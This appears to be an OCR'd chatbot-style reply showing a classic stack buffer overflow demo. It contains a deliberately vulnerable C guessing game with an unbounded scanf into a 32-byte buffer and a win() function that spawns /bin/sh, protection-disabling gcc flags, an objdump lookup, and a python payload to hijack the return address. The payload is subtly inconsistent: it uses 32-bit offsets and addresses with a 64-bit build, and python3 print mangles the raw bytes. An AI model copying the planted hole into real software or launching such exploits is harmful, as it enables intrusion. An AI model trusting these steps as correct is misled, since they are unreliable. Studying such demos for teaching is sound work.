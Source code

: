 
To simulate a real buffer overflow, you need to let the user input a string into a buffer, like so:


---

Modified vulnerable version (intentionally broken)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

void win() {
    printf("YOU HAVE BEEN HACKED! WIN FUNCTION EXECUTED\n");
    system("/bin/sh");
}

int main() {
    int secret;
    int guess;
    char buffer[32];  // small buffer to overflow

    srand(time(NULL));
    secret = rand() % 100 + 1;

    printf("pls guess a number: ");
    fflush(stdout);

    scanf("%s", buffer); // vulnerability here: no bounds check!

    guess = atoi(buffer);

    if (guess < secret) {
        printf("too small\n");
    } else if (guess > secret) {
        printf("too much\n");
    } else {
        printf("congrats\n");
    }

    printf("you guessed : %d\n", guess);
    printf("secret num. : %d\n", secret);

    return 0;
}
```

---

Exploit Simulation Setup

1. What we aim to do:

Overflow buffer[32] with crafted input → overwrite return address → point to win() function → get shell or win message.


---

2. Compile with vulnerable flags:

`gcc vuln.c -o vuln -fno-stack-protector -z execstack -no-pie`

3. Find win() address with objdump:

`objdump -d ./vuln | grep win`

Example:

`080491e2 <win>:`


---

4. Build payload (simulate manually for now)

Let’s say:

buffer takes 32 bytes

Saved EBP = 4 bytes

Return address is next (total = 36 bytes before overwrite)

win() = 0x080491e2


We construct input like:

`python3 -c 'print("A"*36 + "\xe2\x91\x04\x08")' > input.txt`

Then run:

`./vuln < input.txt`


---

What happens?

Program runs, takes your input into buffer via scanf("%s", buffer) → overflows past buffer → overwrites return address → jumps to win() → shell or print:

`YOU HAVE BEEN HACKED! WIN FUNCTION EXECUTED`


---

Important Note:

This simulation only works with:

No PIE (`-no-pie`)

No stack protector (`-fno-stack-protector`)

Executable stack (`-z execstack`) — for shellcode injection if you go that far



---

Summary:

> You wanted a buffer overflow demo?
There it is: classic C-style ownage, just like the old days, Nii.
One bad scanf("%s", buffer) =
"Game Over" if Blank is playing.

